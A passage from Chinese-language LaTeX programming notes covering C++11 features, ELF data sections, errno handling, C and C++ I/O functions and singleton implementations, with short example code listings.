\textbf{decltype}实际上有点像\textbf{auto}的反函数,auto可以让你声明一个变量,而decltype则可以从一个变量或表达式中得到类型,有实例如下:
\begin{lstlisting}[language=C++]
int x = 3;  
decltype(x) y = x;

template <typename Creator>  
auto processProduct(const Creator& creator) -> decltype(creator.makeObject()) {  
    auto val = creator.makeObject();  
    // do somthing with val  
} 
\end{lstlisting}

\subsection{nullptr}
nullptr是为了解决原来C++中NULL的二义性问题而引进的一种新的类型,对于一些重载函数,NULL的类型不确定是整型还是指针。
\begin{lstlisting}[language=C++]
void f(int); //1  
void f(char *);//2  
f(0); //C++03: which f is called?
f(nullptr) //C++11: unambiguous, calls 2
\end{lstlisting}

\subsection{序列for循环}
\begin{lstlisting}[language=C++]
map<string, int> m{{"a", 1}, {"b", 2}, {"c", 3}};  
for (auto p : m){  
    cout<<p.first<<" : "<<p.second<<endl;  
} 
\end{lstlisting}

\subsection{Lambda表达式}
lambda表达式类似Javascript中的闭包,它可以用于创建并定义匿名的函数对象,以简化编程工作。Lambda的语法如下:
\begin{verbatim}
[函数对象参数](操作符重载函数参数)->返回值类型{函数体}
\end{verbatim}


\subsection{变长参数的模板}
由于在C++11中引入了变长参数模板,所以发明了新的数据类型:tuple,tuple是一个N元组,可以传入1个, 2个甚至多个不同类型的数据:
\begin{lstlisting}[language=C++]
auto t1 = make_tuple(1, 2.0, "C++ 11");  
auto t2 = make_tuple(1, 2.0, "C++ 11", {1, 0, 2}); 
\end{lstlisting}
这样就避免了从前的pair中嵌套pair的丑陋做法,使得代码更加整洁。

\subsection{右值引用}
左值是一个指向某内存空间的表达式,并且我们可以用\&操作符获得该内存空间的地址。右值就是非左值的表达式。

在 C++03及之前的标准,临时对象(称为右值"R-values",位于赋值运算符之右)无法被改变,在 C 中亦同(且被视为无法和 const T\& 做出区分)。
如果一个表达式返回一个临时变量,则该表达式是右值。

C++11 增加一个新的非常数引用(reference)类型,称作右值引用(R-value reference),标记为T \&\&。普通的引用现在被称为左值引用。
右值引用所引用的临时对象可以在该临时对象被初始化之后做修改,这是为了允许move语义。

右值引用至少解决了这两个问题:实现move语义;完美转发(Perfect forwarding)。
右值引用允许函数在编译期根据参数是左值还是右值来建立分支。

\begin{lstlisting}[language=C++]
void foo(X& x); // 左值引用重载
void foo(X&& x); // 右值引用重载
X x;
X foobar();
foo(x);//参数是左值
foo(foobar());//参数是右值
\end{lstlisting}

右值引用类型既可以被当作左值也可以被当作右值,判断的标准是,如果它有名字,那就是左值,否则就是右值。
\begin{lstlisting}[language=C++]
void foo(X&& x)
{
   X anotherX = x; // x被当做左值,调用X(X const & rhs)
}
/**********************************/
X&& goo();
X x = goo(); // 调用X(X&& rhs),goo的返回值没有名字
/**********************************/
Base(Base const & rhs); // non-move semantics
Base(Base&& rhs); // move semantics
Derived(Derived const & rhs) 
   : Base(rhs)
{
   // Derived-specific stuff
}
Derived(Derived&& rhs) 
   : Base(rhs) // 错误:rhs是个左值
{
   // ...
}
Derived(Derived&& rhs) 
   : Base(std::move(rhs)) // good, calls Base(Base&& rhs)
{
   // Derived-specific stuff
}
\end{lstlisting}


\subsection{统一形的初始化}
在引入C++11之前,只有数组能使用初始化列表,其他容器想要使用初始化列表,只能用以下方法:
\begin{lstlisting}[language=C++]
int arr[3] = {1, 2, 3}  
vector<int> v(arr, arr + 3); 
\end{lstlisting}

在C++11中,我们可以使用以下语法来进行替换:
\begin{lstlisting}[language=C++]
int arr[3]{1, 2, 3};  
vector<int> iv{1, 2, 3};
vector vs<string>={ "first", "second", "third"};
map<int, string>{{1, "a"}, {2, "b"}};  
string str{"Hello World"}; 
\end{lstlisting}

\subsection{委托构造函数}
C++11允许构造函数调用其他构造函数,这种做法称作委托或转接(delegation)。
\begin{lstlisting}[language=C++]
class SomeType {
  int number;
  string name;
  SomeType( int i, string& s ) : number(i), name(s){}
public:
  SomeType( )           : SomeType( 0, "invalid" ){}
  SomeType( int i )     : SomeType( i, "guest" ){}
  SomeType( string& s ) : SomeType( 1, s ){ PostInit(); }
};
\end{lstlisting}

\subsection{使用或禁用对象的默认函数}
在传统C++中,若使用者没有提供, 则编译器会自动为对象生成默认构造函数(default constructor)、 复制构造函数(copy constructor),赋值运算符(copy assignment operator operator=) 以及析构函数(destructor)。
问题在于原先的c++无法精确地控制这些默认函数的生成。
比方说,要让类型不能被拷贝,必须将复制构造函数与赋值运算符声明为private,并不去定义它们。
尝试使用这些未定义的函数会导致编译期或链接期的错误。
但这种手法并不是一个理想的解决方案。
此外,编译器产生的默认构造函数与使用者定义的构造函数无法同时存在。
\textbf{若用户定义了任何构造函数,编译器便不会生成默认构造函数; 但有时同时带有上述两者提供的构造函数也是很有用的}。


C++11 允许显式地表明采用或拒用编译器提供的内置函数。例如要求类型带有默认构造函数,可以用以下的语法:
\begin{lstlisting}[language=C++]
struct A   
{   
	A()=default;
    virtual ~A()=default;
};
\end{lstlisting}
Deleted函数对防止对象复制很有用,回想一下C++自动为类声明一个副本构造函数和一个赋值操作符,要禁用复制,声明这两个特殊的成员函数=delete即可:
\begin{lstlisting}[language=C++]
struct NonCopyable
{
  NonCopyable & operator=(const NonCopyable&) = delete;
  NonCopyable(const NonCopyable&) = delete;
  NonCopyable() = default;
};
\end{lstlisting}
禁止类型以operator new配置内存:
\begin{lstlisting}[language=C++]
struct NonNewable
{
  void *operator new(std::size_t) = delete;
};
\end{lstlisting}

\subsection{线程库}
站在程序员的角度来看,C++11最重要的新功能毫无疑问是并行操作,C++11拥有一个代表执行线程的线程类,在并行环境中用于同步,async()函数模板启动并行任务,为线程独特的数据声明\verb$thread_local$存储类型。如果你想找C++11线程库的快速教程,请阅读Anthony William的“C++0x中更简单的多线程”。

\subsection{常量表达式}
C++11新标准规定,允许将变量声明为constexpr类型以便由编译器来验证变量的值是否是一个常量表达式。声明为constexpr的变量一定是一个常量,而且必须用常量表达式初始化:
\begin{lstlisting}[language=C++]
constexpr int GetFive() {return 5;}
int some_value[GetFive() + 5];
constexpr int mf = 20; // 20是常量表达式  
constexpr int limit = mf + 1;// mf + 1是常量表达式  
constexpr int sz = size();//当size是一个constexpr函数时才可编译
\end{lstlisting}

\subsection{新的智能指针类}
C++98只定义了一个智能指针类\verb$auto_ptr$,它现在已经被废弃了,C++11引入了新的智能指针类\verb$shared_ptr$和最近添加的\verb$unique_ptr$,两者都兼容其它标准库组件,因此你可以在标准容器内安全保存这些智能指针,并使用标准算法操作它们。

\subsection{新的算法}
C++11标准库定义了新的算法: \verb$all_of(),any_of(),none_of(),copy_n(),iota()$操作:
\begin{lstlisting}[language=C++]
#include <algorithm>      
//are all of the elements positive?  
all_of(first, first+n, ispositive()); //false  
//is there at least one positive element?   
any_of(first, first+n, ispositive());//true    
// are none of the elements positive?    
none_of(first, first+n, ispositive()); //false 
int source[5]={0,12,34,50,80};  
int target[5];  
//copy 5 elements from source to target  
copy_n(source,5,target);
\end{lstlisting}

算法iota()创建了一个值顺序递增的范围,好像分配一个初始值给*first,然后使用前缀++使值递增,在下面的代码中,iota()分配连续值{10,11,12,13,14}给数组arr,并将{‘a’,’b’,’c’}分配给char数组c。
\begin{lstlisting}[language=C++]
include <numeric> 
int a[5]={0};  
char c[3]={0};  
iota(a, a+5, 10); //changes a to {10,11,12,13,14}  
iota(c, c+3, 'a'); //{'a','b','c'}
\end{lstlisting}

C++11仍然缺乏一些有用的库,如XML API,套接字,GUI,反射以及前面提到的一个合适的自动垃圾回收器,但C++11的确也带来了许多新特性,让C++变得更加安全,高效,易学易用。

\subsection{Boost}
除了加入C++11的功能之外,boost还包含其他的实用库,如crc,uuid,有理数,环形数组,内存池,system,filesystem,python支持等。



%!Mode:: "TeX:UTF-8"
 

\section{ELF文件布局}
在ELF格式的可执行文件中,全局内存包括三种:bss、data和rodata。

bss代表Block Storage Start,是指那些没有初始化的和初始化为0的全局变量。
如\verb$int bss_array[1024 * 1024] = {0};$。
变量\verb$bss_array$的大小为4M,而可执行文件的大小只有5K。 
由此可见,bss类型的全局变量只占运行时的内存空间,而\textbf{不占}文件空间。

data指那些初始化过(非零)的非const的全局变量。
如果数据全是零,为了优化考虑,编译器把它当作bss处理。
data类型的全局变量是即占文件空间,又占用运行时内存空间的。
data的例子如:

\verb$int data_array[1024 * 1024] = {1};$


rodata的意义同样明显,ro代表read only,即只读数据(const)。
常量不一定就放在rodata里,有的立即数直接编码在指令里,存放在代码段(.text)中。
对于字符串常量,编译器会自动去掉重复的字符串,保证一个字符串在一个可执行文件(EXE/SO)中只存在一份拷贝。
rodata是在多个进程间是共享的,这可以提高空间利用率。
在有的嵌入式系统中,rodata放在ROM(如norflash)里,运行时直接读取ROM内存,无需要加载到RAM内存中。
把在运行过程中不会改变的数据设为rodata类型的,是有很多好处的:在多个进程间共享,可以大大提高空间利用率,甚至不占用RAM空间。同时由于rodata在只读的内存页面(page)中,是受保护的,任何试图对它的修改都会被及时发现,这可以帮助提高程序的稳定性。

\subsection{ABI}
应用二进制接口(英语:application binary interface,缩写为 ABI)描述了应用程序(或者其他类型)和操作系统之间或其他应用程序的低级接口。

ABI涵盖了各种细节,如:
\begin{itemize}
\item 数据类型的大小、布局和对齐;
\item 调用约定(控制着函数的参数如何传送以及如何接受返回值),例如,是所有的参数都通过栈传递,还是部分参数通过寄存器传递;哪个寄存器用于哪个函数参数;通过栈传递的第一个函数参数是最先push到栈上还是最后;
\item 系统调用的编码和一个应用如何向操作系统进行系统调用;
\item 以及在一个完整的操作系统ABI中,目标文件的二进制格式、程序库等等。
\end{itemize}
一个完整的ABI,像Intel二进制兼容标准(iBCS),允许支持它的操作系统上的程序不经修改在其他支持此ABI的操作系统上运行。

其他的ABI标准化了一些细节,包括C++ 名称修饰 ,和同一个平台上的编译器之间的调用约定,但是不包括跨平台的兼容性。

ABI不同于应用程序接口(API),API定义了源代码和库之间的接口,因此同样的代码可以在支持这个API的任何系统中编译,然而ABI允许编译好的目标代码在使用兼容ABI的系统中无需改动就能运行。 在Unix风格的操作系统中,存在很多运行在同一硬件平台上互相相关但是不兼容的操作系统(尤其是Intel 80386兼容系统)。有一些努力尝试标准化ABI,以减少销售商将程序移植到其他系统时所需的工作。然而,直到现在还没有很成功的例子,虽然Linux标准化工作组正在为Linux做这方面的努力。
%!Mode:: "TeX:UTF-8"

\section{errno与错误}
\subsection{errno}
在C++中errno被定义为宏,最终展开成为一个int型左值。
在C语言中,errno可以是一个有外部链接的整型变量。
程序启动时errno被初始化为0,任意函数均可改变其值,因此在调用需要查错的函数前应先将errno设置为0。


支持多线程的库应该在每个线程定义errno,对于C11和C++11兼容的库这是基本要求。

stdio.h定义了perror检查errno变量,打印出对应的描述性文字,可以配置打印前缀。
\begin{lstlisting}[language=C]
void perror(const char *str);
\end{lstlisting}

string.h定义了strerror将整型错误码转为描述性文字,其返回值为静态分配的字符串,不应被修改,多次调用strerror可能会覆盖其内容。
\begin{lstlisting}[language=C]
char *strerror(int errnum);
\end{lstlisting}

以下例子说明了perror的用法:
\begin{lstlisting}[language=C++]
/* perror example */
#include <stdio.h>

int main ()
{
  FILE * pFile;
  pFile=fopen ("unexist.ent","rb");
  if (pFile==NULL)
    perror ("The following error occurred");
  else
    fclose (pFile);
  return 0;
}
\end{lstlisting}

以下例子说明了strerror的用法:
\begin{lstlisting}[language=C++]
/* strerror example : error list */
#include <stdio.h>
#include <string.h>
#include <errno.h>

int main ()
{
  FILE * pFile;
  pFile = fopen ("unexist.ent","r");
  if (pFile == NULL)
    printf ("Error opening file unexist.ent: %s\n",strerror(errno));
  return 0;
}
\end{lstlisting} 





%!Mode:: "TeX:UTF-8"

\section{代码:一些重要功能的C++实现}

\subsection{赋值函数}
\begin{lstlisting}[language=C++]
Widget& Widget::operator=(Widget& rhs)
{
	//not needed: if (*this == rhs) return *this;
	Widget temp(rhs);
	swap(temp);
	return *this;
}
\end{lstlisting}

\subsection{move函数}
\begin{lstlisting}[language=C++]
// move constructor  
    ArrayWrapper (ArrayWrapper&& other)  
        : _p_vals( other._p_vals  )  
        , _size( other._size )  
    {  
        other._p_vals = NULL;  
    }  
   
    // copy constructor  
    ArrayWrapper (const ArrayWrapper& other)  
        : _p_vals( new int[ other._size  ] )  
        , _size( other._size )  
    {  
        for ( int i = 0; i < _size; ++i )  
        {  
            _p_vals[ i ] = other._p_vals[ i ];  
        }  
    }  
\end{lstlisting}


\subsection{重载输入输出}


输入操作符的重载比和输出操作符复杂:输入操作符必须处理错误和文件结束的可能性。
\begin{lstlisting}[language=C++]

ostream& operator<<(ostream& out, const Sales_item& s)
{
	out << s.isbn << "\t" << s.units_sold << "\t"
		<< s.revenue << "\t" << s.avg_price();
	return out;
}

istream& operator>>(istream& in, Sales_item& s)
{
	double price;
	in >> s.isbn >> s.units_sold >> price;
	// check that the inputs succeeded
	if (in)
		s.revenue = s.units_sold * price;
	else
		s = Sales_item(); // input failed: reset object to default state
	return in;
}

\end{lstlisting}

\subsection{String类实现}
陈硕在酷壳发表了如下写法,适合面试。但是这段代码未实现追加操作。另外,strlen参数未判断是否为NULL,会导致未定义行为,
可改为\verb$str?strlen(str):0$。

\lstinputlisting{src/string-imp-chenhao.cpp}

实现2:
\lstinputlisting{src/string-imp-2.cpp}

实现3:
\lstinputlisting{src/string-imp-3.cpp}

\subsection{智能指针}

C++98 \verb$auto_ptr$的缺陷:功能缺失(构造函数的move语义,赋值操作符),导致不易理解,容易出错。
标准容器不能容纳\verb$auto_ptr$,因为它的转移语义。

\verb$shared_ptr$的循环引用会导致内存泄露。改用弱引用可打破这个循环。
\verb$weak_ptr$为弱引用,而\verb$shared_ptr$为强引用。
\verb$weak_ptr$除了对所管理对象的基本访问功能(通过get()函数)外,还有两个常用的功能函数:expired()用于检测所管理的对象是否已经释放;lock()用于获取所管理的对象的强引用指针。
当expired()为true的时候,lock()函数将返回一个存储空指针的\verb$shared_ptr$。

\verb$auto_ptr$代码示例如下:
\lstinputlisting{src/autoptr.cpp}

\subsection{引用计数}

计数方法的实现有2种,内置和外置。
内置指的是对象本身就有计数功能,也就是计数的值变量是对象的成员;
外置则是指对象本身不需要支持计数功能,我们是在外部给它加上这个计数能力的。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.4\paperwidth]{Pictures/RCObject.jpg}
	\caption{内置引用计数}
	\label{fig:RCObject}
	\end{center}
\end{figure}

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.4\paperwidth]{Pictures/RCObject-out.jpg}
	\caption{外置引用计数}
	\label{fig:RCObject}
	\end{center}
\end{figure}

内置引用计数示例代码:
\lstinputlisting{src/refcount.cpp}



\clearpage
















%!Mode:: "TeX:UTF-8"

\section{IO标准库笔记}

\subsection{printf和scanf返回值}
printf返回值为打印的字符数。

scanf:
当 scanf 函数扫描完其格式串,或者碰到某些输入无法与格式控制说明匹配的情况时,
该函数将终止,同时,成功匹配并赋值的输入项的个数将作为函数值返回,所以,该函数的
返回值可以用来确定已匹配的输入项的个数。如果到达文件的结尾,该函数将返回 EOF。注
意,返回 EOF 与 0 是不同的,0 表示下一个输入字符与格式串中的第一个格式说明不匹配。
下一次调用 scanf 函数将从上一次转换的最后一个字符的下一个字符开始继续搜索。

\subsection{C++ 行输入}
1.成员函数get \verb$ istream& get (char* s, streamsize n, char delim);$:

\verb$   ifstream in("a.txt"); while (in.get(buf, SZ) {...} $.

这一函数读取SZ-1个字符,或者遇到第三个参数所规定的字符(默认为'\verb$\n$')(但不对该字符进行读取)或文件结束。
自动写入\verb$'\0'$.

可以辅助使用无参数成员函数get解决行结束符未被读取的问题:
\verb$   ifstream in("a.txt"); in.get();$.这一函数读取一个字节。

2. 成员函数getline \verb$ istream& getline (char* s, streamsize n, char delim ); $:

\verb$   ifstream in("a.txt"); while (in.getline(buf, SZ)) {...} $.

会读入'\verb$\n$,但不会将其写到缓冲区buf。
自动写入\verb$'\0'$.

3. std全局函数\verb$std::getline(std::istream&, const std::string&)$:

同成员函数getline一样,全局getline读取到换行符,读掉并丢弃换行符。将istream参数作为返回值。

\verb$ while (getline(cin, line)) {...} $

\subsection{C++ 对象输入}
\verb$ while (cin>>s) {...} $

\subsection{C++单字符输入}
is.get(ch)  将 istream is 的下一个字节放入 ch,返回 is。

is.get()  返回 is 的下一字节作为一个 int 值。

\subsection{C单字符输入}
\begin{lstlisting}[language=C]
int getc(FILE * stream);
int fgetc(FILE * stream);
int getchar(void);
\end{lstlisting}
fgetc和getc是等价的,区别在于getc可能仅仅实现位一个宏。
getchar等效于getc(stdin)。

三者的返回值之所以被提升位int,是为了表示特殊值EOF,一般定义为-1。
如果字符读取时出错,将返回EOF,并设置文件流的出错指示位(error indicator),可供ferror读取;
如果字符读取时遇到end-of-file,则返回EOF,并设置文件流的end-of-file指示位,可供feof读取。

\begin{lstlisting}[language=C++]
int ungetc(int c, FILE *stream);
\end{lstlisting}
ungetc将字符c转为unsigned char类型并压入输入流中,以便下次还可读取。这个字符未必是之前读入的字符。
成功时返回c,失败时返回EOF。



\subsection{C 行输入}

\begin{lstlisting}[language=C++]
char *fgets(char *line, int num, FILE *fp);
\end{lstlisting}
本函数至多读取num-1个字符,并追加\verb$'\0'$,如果遇到换行符或eof则提前结束。
遇到换行符而结束时换行符本身也被读到line中。
在成功情形下读入的一行被存入第一个参数line,同时将line作为返回值。
当出错时,设置出错指示位,返回NULL,但line指向的缓冲区可能已被修改。
当遇到文件结尾时,设置eof指示位,如果尚未读取到任何字符则返回NULL。

示例:
\begin{lstlisting}[language=C++]
/* fgets example */
#include <stdio.h>

int main()
{
   FILE * pFile;
   char mystring [100];

   pFile = fopen ("myfile.txt" , "r");
   if (pFile == NULL) perror ("Error opening file");
   else {
     if (fgets (mystring , 100 , pFile) != NULL)
       puts (mystring);
     fclose (pFile);
   }
   return 0;
}
\end{lstlisting}

可以用fgets实现一个仅针对stdin的getline:
\begin{lstlisting}[language=C++]

/* getline: read a line, return length */
int getline(char *line, int max)
{
if (fgets(line, max, stdin) == NULL)
  return 0;
else
  return strlen(line);
}

\end{lstlisting}



\subsection{获取文件大小}


C++使用seekg和tellg来获取:
\begin{lstlisting}[language=C++]

 is.seekg (0, is.end); //is.end can also be ios:end
 int length = is.tellg();
 is.seekg (0, is.beg); //is.beg can also be ios:beg

\end{lstlisting}

C语言使用fseek变换位置,用ftell获取位置。
\begin{lstlisting}[language=C++]
fseek(fp, 0L, SEEK_END);  
filesize = ftell(fp);  
fseek(fp, 0L, SEEK_SET); //can also be rewind(fp);
\end{lstlisting}

在Linux下可之间读取文件大小:
\begin{lstlisting}[language=C++]
#include <sys/stat.h>

unsigned long get_file_size(const char *path)
{
	struct stat statbuff;
	if(!stat(path, &statbuff)){
	    return statbuff.st_size;
	}
	
	return -1;
}
\end{lstlisting}

\subsection{C++ IO库层次}

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.4\paperwidth]{Pictures/CppStdFileStream.png}
		
\includegraphics[keepaspectratio,width=0.4\paperwidth]{Pictures/CppStdStringStream.png}
	\caption{文件流与字符流}
	\label{fig:CppStdIoStreams}
	\end{center}
\end{figure}

\verb$ios_base$类是标准IO库类层次的始祖,其派生出\verb$basic_ios$模板类,进而派生其他诸多模板类。
\begin{lstlisting}[language=C++]
typedef basic_ios<char> ios;
typedef basic_istream<char> istream;
typedef basic_ostream<char> ostream;
typedef basic_iostream<char> iostream;
typedef basic_ifstream<char> ifstream;
typedef basic_ofstream<char> ofstream;
typedef basic_fstream<char> fstream;
typedef basic_istringstream<char> istringstream;
typedef basic_ostringstream<char> ostringstream;
typedef basic_stringstream<char> stringstream;
\end{lstlisting}




\clearpage

\subsection{C 块读入}
\begin{lstlisting}[language=C++]
size_t fread (void * ptr, size_t size, size_t count, FILE *stream);
\end{lstlisting}
执行成功时fread返回值应该等于count,注意不是读入的字节数。如果小于count,说明遭遇了出错或eof,与fgetc类似。

下面的程序将一个文件读入内存:
\begin{lstlisting}[language=C++]
/* fread example: read an entire file */
#include <stdio.h>
#include <stdlib.h>

int main () {
    FILE * pFile;
    long lSize;
    char * buffer;
    size_t result;

    pFile = fopen ( "myfile.bin" , "rb" );
    if (pFile==NULL) {fputs ("File error",stderr); exit (1);}

    // obtain file size:
    fseek (pFile , 0 , SEEK_END);
    lSize = ftell (pFile);
    rewind (pFile);

    // allocate memory to contain the whole file:
    buffer = (char*) malloc (sizeof(char)*lSize);
    if (buffer == NULL) {fputs ("Memory error",stderr); exit (2);}

    // copy the file into the buffer:
    result = fread (buffer,1,lSize,pFile);
    if (result != lSize) {fputs ("Reading error",stderr); exit (3);}

    /* the whole file is now loaded in the memory buffer. */

    // terminate
    fclose (pFile);
    free (buffer);
    return 0;
}

\end{lstlisting}

\subsection{C语言的IO流错误}
feof,ferror分别检查文件流的eof指示位和error指示位,返回布尔值。
perror检查errno变量,打印出对应的描述性文字,可以配置打印前缀。
\begin{lstlisting}[language=C]
//stdio.h
int feof(FILE *stream);
int ferror(FILE *stream);
void perror(const char *str);
\end{lstlisting}



以下例子说明了feof的用法:
\begin{lstlisting}[language=C++]
/* feof example: byte counter */
#include <stdio.h>

int main ()
{
    FILE * pFile;
    int n = 0;
    pFile = fopen ("myfile.txt","rb");
    if (pFile==NULL) perror ("Error opening file");
    else
    {   
        while (fgetc(pFile) != EOF) {
            ++n;
        }   
        if (feof(pFile)) {
            puts ("End-of-File reached.");
            printf ("Total number of bytes read: %d\n", n); 
        }   
        else puts ("End-of-File was not reached.");
        fclose (pFile);
    }   
    return 0;
}
\end{lstlisting} 

这个例子说明了ferror的用法:
\begin{lstlisting}[language=C++]
/* ferror example: writing error */
#include <stdio.h>
int main ()
{
    FILE * pFile;
    pFile=fopen("myfile.txt","r");
    if (pFile==NULL) perror ("Error opening file");
    else {
        fputc ('x',pFile);
        if (ferror (pFile))
            printf ("Error Writing to myfile.txt\n");
        fclose (pFile);
    }   
    return 0;
}
\end{lstlisting} 



\subsection{C++ IO流出错状态}
\begin{lstlisting}[language=C++]
//Range relations: bad < fail = operator! < good

std::ios::fail();//Check whether either failbit or badbit is set
std::ios::eof();//Check whether eofbit is set
std::ios::bad();//Check whether badbit is set

//Returns true if none of the stream's error state 
//flags (eofbit, failbit and badbit) is set.
std::ios::good();

//Returns whether an error flag is set (either failbit or badbit).
//Notice that this function does not return the same as member good(), 
//but the opposite of member fail(). 
std::ios::operator bool();
\end{lstlisting}











%!Mode:: "TeX:UTF-8"
\section{单例模式的实现问题}

\subsection{使用静态成员的实现}
\begin{lstlisting}[language=C++] 
class CMySingleton
{
public:
  static CMySingleton& Instance()
  {
    static CMySingleton singleton;
    return singleton;
  }

// Other non-static member functions
private:
  CMySingleton() {}                                  // Private constructor
  ~CMySingleton() {}
  CMySingleton(const CMySingleton&);                 // Prevent copy-construction
  CMySingleton& operator=(const CMySingleton&);      // Prevent assignment
};
\end{lstlisting}

这种实现方式的缺陷是我们无法控制多个单例的构造析构顺序。
当多个单例对象在析构过程中相互依赖时,可能会导致错误。
\begin{lstlisting}[language=C++] 
struct A
{
  A() { B::Instance(); C::Instance().call(); }
};

struct B
{
  ~B() { C::Instance().call(); }
  static B& Instance() { static B MI; return MI; }
};

struct C
{
  static C& Instance() { static C MI; return MI; }
  void call() {}
};

A globalA;
\end{lstlisting}
A的构造函数会导致B和C的单例被依次构造。
静态对象的析构顺序与其构造顺序相反,因此C先被析构。
B在析构时会调用C的方法,导致未定义行为。

\subsection{使用指针的实现}
使用不死鸟模式(Phoenix Singleton)解决多个单例相互依赖的问题。

\begin{lstlisting}[language=C++] 
// in s.hpp
class S
{
public:
  static S& Instance(); // already defined
private:
  static void CleanUp();
  S(); // later, because that's where the work takes place
  ~S() { /* anything ? */ }
  // not copyable
  S(S const&);
  S& operator=(S const&);
  static S* MInstance;
};

// in s.cpp
S* S::MInstance = 0;
S& S::Instance() { if (MInstance == 0) MInstance = new S(); return *MInstance; }
S::S() { atexit(&CleanUp); }
S::CleanUp() { delete MInstance; MInstance = 0; } // Note the = 0 bit!!!

\end{lstlisting}



\subsection{线程安全单例的实现}
一种广为人知的做法是使用所谓的Double-Checked Locking:

\begin{lstlisting}[language=C++]                      

 class Singleton
{
private:
    static Singleton *volatile m_instance;
    Singleton(){}
public:
    static Singleton *getInstance();
};

Singleton* volatile Singleton::m_instance = 0;

Singleton* Singleton::getInstance()
{
    if(NULL == m_instance)
    {
        Lock();//借用其它类来实现,如boost
        if(NULL == m_instance)
        {
            m_instance = new Singleton;
        }
        UnLock();
    }
    return m_instance;
} 
\end{lstlisting}

Double-Checked Locking机制不是一个完美的解决方案,
首先,编译器可能会乱序优化,将Singleton对象的初始化调整到m\_instance赋值之后,使得某个进程得到的m\_instance可能只是未完成构造的裸内存。
其次,在多处理器(multiprocessors)的情况下,超线程技术必然会混合执行指令,指令的执行顺序更无法保障。
Java会将整个getInstance标为Syncronized,除此别无他法实现线程安全。
C++也采取类似做法,引入相关同步对象(synchronization object):
\begin{lstlisting}[language=C++]                      
1 #ifndef SINGLETON_H
 2 #define SINGLETON_H
 3 
 4 #include "synobj.h"
 5 
 6 class Singleton {
 7 public:
 8     static Singleton& Instance() { // Unique point of access
 9         Lock lock(_mutex);
10         if (0 == _instance) {
11             _instance = new Singleton();
12             atexit(Destroy); // Register Destroy function
13         }
14         return *_instance;
15     }
16     void DoSomething(){}
17 private:
18     static void Destroy() { // Destroy the only instance
19         if ( _instance != 0 ) {
20             delete _instance;
21             _instance = 0;
22         }
23     }
24     Singleton(){} // Prevent clients from creating a new Singleton
25     ~Singleton(){} // Prevent clients from deleting a Singleton
